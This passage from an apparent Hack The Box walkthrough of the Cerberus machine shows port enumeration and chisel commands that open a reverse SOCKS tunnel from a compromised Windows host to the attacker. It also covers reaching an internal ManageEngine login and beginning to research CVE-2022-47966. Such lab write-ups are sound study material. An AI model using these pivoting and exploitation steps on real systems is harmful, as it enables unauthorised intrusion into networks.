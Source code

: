 ```
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING
```

Port 9003 is the one we want after some testing. Port 8888 redirects me there for some reason and the rest of the ports weren't interesting. Let's try port forwarding to view the services running on these ports. We would have to port forward again using `chisel` to do this.&#x20;

```bash
# on my machine, with proxychains set up to port 1080
./chisel server -p 9003  --reverse
# on icinga WINDOWS
./chisel client 10.10.16.18:9003 R:1080:socks
```

Then we need to add `DC.cerberus.local` with the IP of `172.16.22.1` to our `/etc/hosts` file before we can visit this in Firefox with `proxychains`. Very similar to NUS's, interestingly.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can login with `matthew@cerberus.local` and the password we found earlier. This does nothing for us, however. All it does is provide a URL with a token appended at the back:&#x20;

```
https://dc:9251/samlLogin/67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
```

Not sure what to do with this though.

### CVE-2022-47966

One thing I've learnt with the newer HTB machines is that **they always use newer exploits available**. As such, we can try to find a new exploit for this software and try it:

{% embed url="https://www.cvedetails.com/vulnerability-list/vendor_id-9841/product_id-20523/Zohocorp-Manageengine-Adselfservice-Plus.html" %}

The first was CVE-2022-47966, which was an Exec Code exploit. It seems to affect a huge number of versions based on reading some articles, so it might work. This particular exploit requires SAML SSO to be enabled, and it is on this website as the following link is visited when we first load the page before logging in:

{% code overflow="wrap" %}
```
https://dc.cerberus.local/adfs/ls/?SAMLRequest=pVNNj9owFLz3V1i%2Bk8RJgMQirCh0VSS2jSDbQy%2BV47ywlhKb2g7L%2Fvt1%2BNjSqqVSe7Jkz3tv3sx4cndoG7QHbYSSGSZegBFIriohtxl%2BLO4HCb6bvpsY1jbhjs46%2ByTX8L0DY9HMGNDW1c2VNF0LegN6Lzg8rlcZfrJ2Z6jvL%2BY0DYfE7xus1FZIfzRmSUUCMkqDOAgrPmKjcRyXSc0TNuaMMF4nSRnWGC3cFCGZPVK7NKy4x0GXoDvjNYqzxmdVbfzG%2BBgtFxn%2BFg3LIIySgPGSJBGJ47SuU0KSmI1IlJbgYMZ0sJTGMmkzHDr0IIgGYViQmMZjGg69NBp%2FxSjXyiqumvdCnvTotKSKGWGoZC0YajndzB5WNPQCWp5Ahn4sinyQf94UxwZ7UYH%2B5NAZfmCSbeGDdCIAmi020NRnxVDedAajLxcbwt4GZ4w09CT87dG7M088PflEjwtqdK90y%2Bzt2v5GVIP6CKUgrbAvP82%2BXc4uGcDT%2F3d84l%2FTn15C16u3XOSqEfwFzZpGPc81MOsUtbpzdv5tTeKRX9bspNkBF7WACvtvc865huqYchdqCweL5qrdMS1M7wscGLdvKl%2FD5o1TYg31Pyl3E8Yp73u769wdz0pXfSyBO56FZm4Rpe1FuN8xmp4f%2F7Dfj%2Bfrvz19BQ%3D%3D&RelayState=aHR0cHM6Ly9EQzo5MjUxL3NhbWxMb2dpbi9MT0dJTl9BVVRI
```
{% endcode %}
